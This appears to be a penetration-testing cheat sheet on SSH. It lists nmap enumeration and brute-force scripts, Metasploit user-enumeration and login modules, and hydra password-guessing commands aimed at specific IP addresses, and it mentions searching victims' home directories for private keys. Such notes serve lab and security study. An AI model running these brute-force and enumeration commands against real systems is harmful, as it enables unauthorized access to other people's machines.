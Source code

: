 # SSH
## info
* authentication methods
  * username + password
  * key based
* the tipical attack is
  * bruteforcing credentials, (or searching private key files in the victims home directory or in other places)
  * exploiting vulnerable ssh version

## login with ssh
ssh 192.202.224.3  
ssh username@192.202.224.3  
## nmap scripts
nmap -Pn -v 192.202.224.3 --script=ssh-auth-methods  
nmap -Pn -v 192.202.224.3 --script=ssh-auth-methods --script-args=ssh.user=admin  
nmap -Pn -v 192.202.224.3 --script=ssh2-enum-algos  
nmap -Pn -v 192.202.224.3 --script=ssh-hostkey  
nmap -Pn -v 192.202.224.3 --script=ssh-run --script-args="ssh-run.cmd=pwd,ssh-run.username=admin,ssh-run.password=Pass123"  
## metasploit
auxiliary/scanner/ssh/ssh_enumusers  
auxiliary/scanner/ssh/ssh_login  
auxiliary/scanner/ssh/ssh_version  
## bruteforcing username and password
nmap -Pn -v 192.202.224.3 --script=ssh-brute --script-args=userdb=users.txt,passdb=passwords.txt  
hydra -l admin -p Pass123 ssh://192.38.1.3  
hydra -L user_list.txt -P pass_list.txt ssh://192.38.1.3  
hydra -L user_list.txt -P pass_list.txt ssh://192.38.1.3 -t 4  
metasploit> auxiliary/scanner/ssh/ssh_enumusers  
metasploit> auxiliary/scanner/ssh/ssh_login  

